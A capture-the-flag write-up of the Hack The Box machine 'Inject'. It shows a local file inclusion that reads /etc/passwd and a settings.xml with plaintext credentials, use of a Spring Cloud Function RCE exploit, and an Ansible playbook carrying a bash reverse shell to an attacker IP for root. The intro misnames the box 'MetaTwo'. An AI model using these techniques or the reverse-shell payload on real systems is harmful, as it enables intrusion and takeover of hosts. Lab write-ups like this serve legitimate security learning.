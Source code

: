 ```yaml
---
title: Inject
categories: [HTB]
tags: complete retired easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> MetaTwo is an easy Linux machine from Hack the Box. Here is the tldr;
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

To take advatage of this, we can visit the file we just uploaded, intercept the request in burpsuite, and replace the image path with the file we want to see. If we pull up the `/etc/passwd`, we can see that we have three users that can login, `root`, `frank`, and `phil`.

### Local file disclosure

![LFI in burpsuite](lfi.png)

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Beyond being able to view individual files, if we put in a  directory we can also see the files in that directory. If we take a look in Frank's home directory, there is a folder `.m2` that stands out, in there we find a `settings.xml` file. In that file we find some credentials for the user phil. It doesn't work with SSH, but they will come in handy later.

In the home directory for phil, we can see the user.txt file with our flag, but don't have permission to access it.

![settings file](frank.settings.xml.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
Next up, let's see if we can find out more information about the web application that is running by checking out `/var/www/`. In there we find a directory called `WebApp` with some more files and directories.

![webapp directory listing](webapp.dir.png)

If we open the `pom.xml` (a configuration file that contains information about a project), we can see that the web app is running the `spring-cloud-function-web` version `3.2.2`

After some more searching we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). There is an exploit [here](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE). I would encourage you to read more about how it works, but basically it creates a shell.sh in your current working directory, starts a basic web server, sends it to our target, makes the shell file executable, and then runs it to give us a reverse shell. It does all of this by sending commands in a specific header in our requests.


![screenshot of request header in expoit script](exploit.command.example.png)

In this request, we can see that it is pinging our attacker machine once to test the connection before continuing on.

Before we can run the exploit, we need to update our listening IP and port, as well as our target IP.

![updaing the script](update.exploit.png)

## User

Before we run our exploit, let's make sure we have a listener open on the port we specified in the script (for me that was 9001). Then let's launch the script and we have a shell a frank!

![we have a shell](wehaveashell.png)

Let's upgrade our shell a little to make it more stable with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`.

Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

```shell
phil@inject:~$ cat user.txt
cat user.txt
6a6254c04b6c0d83e57e13a22f51832b
```

Now that we have user, let's run pspy and see if we can see anything of interest that might be running. Start by putting the `pspy64` script in a www folder and starting up a basic web server. Then on our shell, we use wget to download the script and make it executable.

### Ansible Playbook

When we launch it and watch for a while, we see that ansible playbook is running.

![asbibe in pspy](ansible.pspy64.png)

Since there is an automated task running with Ansible Playbooks running as root, and we have write access to `/opt/ansible/tasks` folder (see post about privesc with ansible [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)), we can create a new `.yaml` file similar to the existing file in the tasks directory with a command that will be run next time the automation is triggered and give us a shell as root.

Here is what our file  will look like:

```yaml
- hosts: localhost
  tasks:
    - name: Nothing to see here
      ansible.builtin.shell: bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'
```

## Root

![we have root](root.png)

To make things easier (since I don't have a very stable shell), I created the new yaml file on my attacker machine, used wget to download it onto the target, then copied it into the `/opt/ansible/tasks` folder. Make sure to have a listener open and once the ansible automation runs you will have a shell as root!










